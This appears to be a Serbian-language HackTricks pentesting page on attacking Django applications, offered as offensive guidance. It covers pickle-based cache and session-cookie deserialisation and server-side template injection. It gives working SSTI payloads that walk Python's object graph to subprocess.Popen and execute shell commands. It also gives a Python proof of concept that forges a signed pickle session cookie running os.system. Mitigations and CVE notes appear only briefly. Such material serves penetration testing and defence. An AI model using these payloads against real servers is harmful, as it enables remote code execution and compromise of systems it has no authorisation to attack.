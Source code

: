 # Django

{{#include /src/banners/hacktricks-training.md}}

## Manipulacija kešom za RCE
Podrazumevani metod skladištenja keša u Djangou je [Python pickles](https://docs.python.org/3/library/pickle.html), što može dovesti do RCE ako se [nepouzdani ulaz de-pikluje](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Ako napadač može dobiti pristup za pisanje u keš, može eskalirati ovu ranjivost na RCE na osnovnom serveru**.

Django keš se skladišti na jednom od četiri mesta: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [memorija](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [fajlovi](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), ili [baza podataka](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Keš koji se skladišti na Redis serveru ili u bazi podataka su najverovatniji vektori napada (Redis injekcija i SQL injekcija), ali napadač može takođe iskoristiti keš zasnovan na fajlovima da pretvori proizvoljno pisanje u RCE. Održavaoci su ovo označili kao neproblematično. Važno je napomenuti da će folder sa keš fajlovima, ime SQL tabele i detalji Redis servera varirati u zavisnosti od implementacije.

Ovaj HackerOne izveštaj pruža odličan, reproduktivni primer iskorišćavanja Django keša koji se skladišti u SQLite bazi podataka: https://hackerone.com/reports/1415436

---

## Injekcija šablona na serverskoj strani (SSTI)
Django Template Language (DTL) je **Turing-kompletan**. Ako se podaci koje je obezbedio korisnik renderuju kao *šablonski string* (na primer, pozivanjem `Template(user_input).render()` ili kada `|safe`/`format_html()` uklanja automatsko eskapovanje), napadač može postići pun SSTI → RCE.

### Detekcija
1. Tražite dinamičke pozive `Template()` / `Engine.from_string()` / `render_to_string()` koji uključuju *bilo koje* nefiltrirane podatke iz zahteva.
2. Pošaljite payload zasnovan na vremenu ili aritmetici:
```django
{{7*7}}
```
Ako renderovani izlaz sadrži `49`, ulaz se kompajlira od strane šablonskog engine-a.

### Primitiv do RCE
Django blokira direktan pristup `__import__`, ali je Python objekat graf dostupan:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Pronađite indeks `subprocess.Popen` (≈400–500 u zavisnosti od Python verzije) i izvršite proizvoljne komande:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Bezbedniji univerzalni uređaj je iterirati dok `cls.__name__ == 'Popen'`.

Isti uređaj funkcioniše za **Debug Toolbar** ili **Django-CMS** funkcije renderovanja šablona koje pogrešno obrađuju korisnički unos.

---

## Pickle-Backed Session Cookie RCE
Ako je podešavanje `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` omogućeno (ili prilagođeni serializer koji deserializuje pickle), Django *dekriptuje i unpickluje* kolačić sesije **pre** nego što pozove bilo koji kod prikaza. Stoga, posedovanje važećeg ključa za potpisivanje (projekat `SECRET_KEY` po defaultu) je dovoljno za trenutnu daljinsku izvršavanje koda.

### Zahtevi za Eksploataciju
* Server koristi `PickleSerializer`.
* Napadač zna / može da pogodi `settings.SECRET_KEY` (curenja putem GitHub-a, `.env`, stranice sa greškama, itd.).

### Dokaz-Koncepta
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Pošaljite rezultantni kolačić, a payload se izvršava sa dozvolama WSGI radnika.

**Mere zaštite**: Držite podrazumevani `JSONSerializer`, rotirajte `SECRET_KEY` i konfigurišite `SESSION_COOKIE_HTTPONLY`.

---

## Nedavne (2023-2025) visoko uticajne Django CVE koje bi pentesteri trebali proveriti
* **CVE-2025-48432** – *Log Injection putem neizbeženog `request.path`* (ispravljeno 4. juna 2025). Omogućava napadačima da prokrijumčare nove linije/ANSI kodove u log fajlove i otrovaju analizu logova nizvodno. Nivo zakrpe ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Kritična SQL injekcija* u `QuerySet.values()/values_list()` na `JSONField` (CVSS 9.8). Kreirajte JSON ključeve da biste izašli iz navodnika i izvršili proizvoljan SQL. Ispravljeno u 4.2.15 / 5.0.8.

Uvek identifikujte tačnu verziju okvira putem `X-Frame-Options` stranice greške ili `/static/admin/css/base.css` hash-a i testirajte navedeno gde je primenljivo.

---

## Reference
* Django bezbednosno izdanje – "Django 5.2.2, 5.1.10, 4.2.22 rešava CVE-2025-48432" – 4. jun 2025.
* OP-Innovate: "Django objavljuje bezbednosne ažuriranja za rešavanje SQL injekcije CVE-2024-42005" – 11. avgust 2024.

{{#include /src/banners/hacktricks-training.md}}
